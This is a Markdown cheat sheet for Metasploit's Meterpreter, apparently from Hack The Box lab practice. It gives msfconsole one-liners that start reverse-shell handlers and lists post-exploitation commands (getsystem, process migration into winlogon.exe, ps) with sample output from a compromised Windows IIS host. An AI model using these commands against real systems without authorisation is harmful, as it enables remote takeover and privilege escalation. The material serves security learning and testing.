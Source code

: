 # meterpreter

### TL;DR
```
sysinfo
getuid
getsid
getsystem
getpid
migrate <to-new-PID>
ps <string-to-search>
ps -S <string-to-search>
sessions
```
### 
```

```

### One liner start meterpreter
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"

msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 443;run;"

msfconsole -x "use exploit/multi/handler;set payload windows/x64/powershell_reverse_tcp;set LHOST tun0; set LPORT 444;run;"
```
### 
```

```

### Syntax
```

```
## Examples 

### sysinfo
```
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### getuid
```
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter >
```

### getsid
```
meterpreter > getsid
Server SID: S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550
```

### getsystem
```
meterpreter > getsystem 
[-] priv_elevate_getsystem: Operation failed: 1726 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
meterpreter >
```

### getpid
```
meterpreter > getpid
Current pid: 1572
meterpreter >
```

### migrate <to-new-PID>
```
meterpreter > migrate 432
[*] Migrating from 1572 to 432...
...
[*] Migration completed successfully.
meterpreter > 
```

### getpid
```
meterpreter > getpid
Current pid: 432
meterpreter >
```

### ps <string-to-search>
```
meterpreter > ps w3
Filtering on 'w3'

Process List
============

 PID   PPID  Name      Arch  Session  User             Path
 ---   ----  ----      ----  -------  ----             ----
 1572  1600  w3wp.exe  x86   0        IIS APPPOOL\Web  c:\windows\system32\inetsrv\w3wp.exe
```

### ps <string-to-search>
```
meterpreter > ps win
Filtering on 'win'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 376  304   wininit.exe
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### ps -S <string-to-search>
```
meterpreter > ps -S winlogon
Filtering on 'winlogon'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### sessions
```
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.16.52:1234 -> 10.10.10.5:49456 (10.10.10.5)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  10.10.16.52:1234 -> 10.10.10.5:49453 (10.10.10.5)
```

### 
```

```

### 
```

```
